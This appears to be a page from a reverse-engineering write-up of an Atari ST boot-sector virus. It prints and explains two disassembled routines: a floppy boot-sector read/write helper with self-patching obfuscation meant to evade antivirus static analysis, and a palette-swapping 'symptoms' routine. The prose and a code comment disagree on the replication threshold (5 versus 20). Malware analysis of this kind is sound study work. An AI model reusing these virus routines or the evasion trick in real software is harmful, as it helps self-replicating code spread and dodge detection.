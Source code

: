 ### The READ_OR_WRITE_BOOTSECTOR helper routine

This routine, as seen in many viruses, is a helper to cal the `FLOPRD` or `FLOPWR` Xbios TRAPs. As only the opcode changes, that saves a lot of bytes to create a reusable routine.

And in this case his author added some simple obfuscation to make the life harder of any antivirus static code analysis, some `word`sizes parameters are merged in `long`-sized parameters, pretty common since thr Ghost Virus but also the "default" opcode is set to #$28 and patched/unpatched live before/after being used (instead of passing the opcode as a parameter for example).

The label `XBIOS_OPCODE` is used in other part of the code to point ot the value to patch: 

As `dev` and `sector` are fixed, it could have been shorter of a few bytes but it does the work.

```asm
; ----------------------------------------------------------------------------------------------------------
; READ_OR_WRITE_BOOTSECTOR
; ----------------------------------------------------------------------------------------------------------
READ_OR_WRITE_BOOTSECTOR:
        MOVE.W    #1,-(A7)                          ; count = 1
        CLR.L     -(A7)                             ; side = 0 | track = 0
        MOVE.W    #1,-(A7)                          ; sector = 1
        CLR.W     -(A7)                             ; dev = A
        CLR.L     -(A7)                             ; rsrvd = 0
        MOVE.L    DISKBUFP.L,-(A7)                  ; buf = DISKBUFP
XBIOS_OPCODE:
        MOVE.W    #$28,-(A7)                        ; No #28 XBIOS, patched in different place to set floprd or flopwr
        TRAP      #$E                               ; Xbios
        ADDA.L    #$14,A7                           ; fix stack
        RTS

```

### The Symptoms routine

As in many viruses, the symptoms routine, following the `DETECT` routine is pretty minimalistic. For this virus it will:

 - Increment the replication counter
 - If the counter value is greater than 5
   - Clear the counter
   - Swap the palettes entries 0 and 4

```asm
; ----------------------------------------------------------------------------------------------------------
; SYMPTOMS
; ----------------------------------------------------------------------------------------------------------
SYMPTOMS:
        ADDQ.w    #$1, COUNTER.w                    ; add 1 to counter
        CMPI.W    #COUNTER_VALUE, COUNTER.w
        BLT.S     DONE                              ; if less than COUNTER_VALUE (20) copies, done
        CLR.W     COUNTER.w                         ; every 20nth copy, clear counter, run symptoms

        LEA.L     PALETTE.L,A0                      ; A0 = ST palette
        MOVE.W    (A0),D0                           ; swap palette[0] value with palette[4]
        MOVE.W    $4(A0),(A0)
        MOVE.W    D0,$4(A0)

; ----------------------------------------------------------------------------------------------------------
; DONE
```